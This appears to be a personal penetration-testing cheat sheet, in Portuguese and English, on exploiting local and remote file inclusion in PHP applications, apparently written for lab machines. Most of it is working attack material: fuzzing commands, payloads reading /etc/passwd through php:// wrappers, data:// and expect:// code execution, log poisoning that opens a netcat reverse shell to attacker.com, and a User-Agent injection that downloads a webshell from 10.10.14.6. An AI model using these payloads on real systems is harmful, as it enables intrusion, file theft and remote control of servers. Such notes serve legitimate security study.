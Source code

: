 LFI-RFI
========================

Shell reversa para windows ou linux

https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php

Para trigar a vulnerabilidade do LFI/RFI, vale apena considerarmos ou imaginarmos como está o código da aplicação. Os cenários possíveis são:


## Concepts

### LFI
Neste cenário a aplicação executa o código em php que for fornecido no parâmetro 'page'.

    <?php
    $file = $_GET['page'];
    include($file);
    ?>

Outro cenário plausível seria o somente leitura com o seguinte código:

    get_file_contents($_GET['page'])

https://www.php.net/manual/en/function.file-get-contents.php

### RFI

(primeiro a ser testado, porque é mas fácil de explorar)
Remote File Inclusion doesn't work anymore on a default configuration since allow_url_include is now disabled since PHP5.
        
    allow_url_include = On

**Bypass allow_url_include**

When allow_url_include and allow_url_fopen are set to Off. It is still possible to include a remote file on Windows box using the smb protocol.

1) Create a share open to everyone
2) Write a PHP code inside a file : shell.php
3) Include it http://example.com/index.php?page=\\10.0.0.1\share\shell.php
          3.1) http://example.htb/index.php?view=//10.10.14.13/smb/sb.php

Vale considerar que, caso não seja possível a execução nesse cenário, ainda é possível a extração do hash de senha.

![qownnotes-media-srjMyL](../../../media/qownnotes-media-srjMyL.png)

![qownnotes-media-PjvkTT](../../../media/qownnotes-media-PjvkTT.png)

Copy the content from "svc_apache" to the final string and past into a file called hash.txt, for example:

![qownnotes-media-ErWStG](../../../media/qownnotes-media-ErWStG.png)

![qownnotes-media-FnhrWB](../../../media/qownnotes-media-FnhrWB.png)

 Aqui temos um detalhe que é quando, no PHP em particular os arquivos são incluidos, por meio de chamadas como
 include, por exemplo.
 
 <https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion>
 
 <https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/>
 
 Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.
 
     <?php include($_GET['file'].".php"); ?>

## Exploiting

Um dos caminhos para  poder realizar alguns testes seriam com wfuzz ou ffuf, por exemplo:

### wfuzz

    wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 1678 -H "Cookie: PHPSESSID=iijak2sj64mghckom5220vo5vo" https://streamio.htb/admin/?debug=FUZZ

### ffuf

    ffuf -c -ic -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -u http://school.flight.htb?view=FUZZ -fs 7069,1170,1102

### wordlists

    sudo apt update
    sudo apt install seclists
    /usr/share/seclists/Fuzzing/LFI/*

**Algumas considerações:**

Considere que essas duas wordlists possuem cominhos completos...

Para testes mais básicos em windows, podemos sugerir esta wordlist:
    
    /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
    
Para testes mais básicos em Linux:

    /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

Para testes mais complexos, envolvendo directory traversal, considere usar as wordlists:

Para windows

    /usr/share/seclists/Fuzzing/LFI/file_inclusion_windows.txt

Para linux

    /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt

Outras wordlists:

    $OWNCLOUD\owncloud\Area_de_trabalho\tools\wordlists_payloads\attack\lfi\*
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/LFI-WindowsFileCheck.txt
    https://raw.githubusercontent.com/tennc/fuzzdb/master/dict/BURP-PayLoad/LFI/LFI-WinblowsFileCheck.txt


### LFI to RCE

    php://input&cmd=cat%20/etc/passwd
    
    /var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444
    


<https://notchxor.github.io/oscp-notes/2-web/LFI-RFI/>


#### Using file upload forms/functions
upload a shell, then

    http://example.com/index.php?page=path/to/uploaded/file.php

#### Using the PHP wrapper expect://command

if the app use an include:

    <?php  
    include $_GET['page'];  
    ?>  
http://target.com/index.php?page=expect://whoami  

####  Using php wrapper file://

http://localhost/include.php?page=file:///path/to/file.ext

#### Using the PHP wrapper php://filter

Com isso eu consigo obter alguns arquivos do servidor
http://localhost/include.php?page=php://filter/convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/read=convert.base64-encode/resource=secret.inc
http://localhost/include.php?page=php://filter/resource=/etc/passwd

#### Using PHP input:// stream

POST

/fi/?page=php://input&cmd=dir

#### Using data://text/plain;base64,command

    data://text/plain;base64,[command encoded in base64]

or
    
    data://text/plain,<?php shell_exec($_GET['cmd']);?>  

ex:

http://example.com/Keeper.php?page=data://text/plain;base64,JTNDJTNGc3lzdGVtJTI4JTI3aWQlMjclMjklM0IlM0YlM0U=  
http://example.com/Keeper.php?page=data://text/plain,<?system('whoami');?>  

#### Using /proc/self/environ

Another popular technique is to manipulate the Process Environ file. In a nutshell, when a process is created and has an open file handler then a file descriptor will point to that requested file.

Our main target is to inject the /proc/self/environ file from the HTTP Header: User-Agent. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there.

    curl http://secureapplication.example/index.php?view=../../../proc/self/environ

response:

HTTP_USER_AGENT="curl/" </body>
so we can inject shit like a webshell

    curl -H "User-Agent: <?php system('wget http://10.10.14.6/webshell.php -O webshell.php')" http://target.com

    curl http://target.com/webshell.php&cmd=ls

#### Using /proc/self/fd
brute force the fd until you see “referer” /proc/self/fd/{number} then

    curl -H "Referer: <?php phpinfo(); ?>" http://target.com

####  Using zip
Upload a ZIP file containing a PHP shell compressed and access:

example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php

#### Using log files with controllable input like:
  . /var/log/apache/access.log
  . /var/log/apache/error.log
  . /var/log/vsftpd.log
  . /var/log/sshd.log
  . /var/log/mail